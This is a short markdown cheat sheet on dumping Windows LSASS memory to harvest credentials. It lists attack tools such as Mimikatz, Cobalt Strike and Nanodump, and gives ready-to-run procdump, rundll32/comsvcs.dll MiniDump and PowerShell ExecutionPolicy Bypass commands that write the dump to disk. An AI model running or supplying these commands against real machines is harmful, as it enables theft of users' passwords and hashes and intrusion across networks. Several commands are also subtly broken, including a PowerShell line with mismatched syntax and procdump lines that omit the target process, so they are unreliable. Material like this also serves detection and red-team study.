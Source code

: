 
## Common Tools 
### Description
Tools Used To Dump LSASS
- Mimikatz
- Cobalt Strike
- Impacket 
- Metasploit 
- Powersploit: Invoke-Mimikatz 
- Empire
- Dumpert
- Nanodump
- Procdump: Sysinternals
- PypyKatz

## Procdump Via -ma or -mm
### Description 
Full Dump
```
procdump -accepteula -ma <outputfile>
```

Mini Dump
```
procdump -accepteula -mm <outputfile>
```

## Nandump
### Description
Tool to create minidumps of LSASS
### References 
- https://github.com/fortra/nanodump

## LOL LSASS Dumping Via Rundll32 & Comsvcs MiniDump
### Description 

c:\windows\system32\comsvcs.dll
Notable Function Name : MiniDumpW -- Ordinal : 24 

```
"C:\Windows\System32\rundll32.exe"  C:\Windows\System32\comsvcs.dll MiniDump <LSASS PID> \Windows\Temp\<filename>.dmp full
```

```
rundll32.exe  comsvcs.dll,#24 600 C:\Users\user\Desktop\lsass.dmp full
```

```
powershell.exe -ExecutionPolicy Bypass -C "C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID>Get-Process lsass).id $env:TEMP\lsass-<filename>.dmp full"
```
